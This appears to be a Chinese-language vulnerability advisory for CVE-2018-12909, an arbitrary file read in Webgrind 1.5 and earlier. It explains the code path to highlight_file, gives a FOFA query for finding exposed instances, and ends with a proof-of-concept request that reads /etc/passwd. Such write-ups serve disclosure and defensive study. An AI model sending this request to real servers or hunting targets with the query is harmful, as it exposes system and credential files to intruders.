




# Webgrind fileviewer.phtml 任意文件读取漏洞 CVE-2018-12909

## 漏洞描述

Webgrind是一套PHP执行时间分析工具。其中Webgrind 1.5版本中存在安全漏洞，该漏洞源于程序依靠用户输入来显示文件。攻击者可以通过漏洞读取服务器敏感文件

## 漏洞影响

```
Webgrind <= 1.5
```

## FOFA

```
app="Webgrind"
```

## 漏洞复现

主页面



方法调用在 index.php 中



当参数为 fileviewer 时，将参数传递包含在文件 templates/fileviewer.phtml 中



参数 file 传入 `fileviewer.phtml` 通过函数 `highlight_file` 显示在页面中， 验证POC

```
/index.php?op=fileviewer&file=/etc/passwd
```

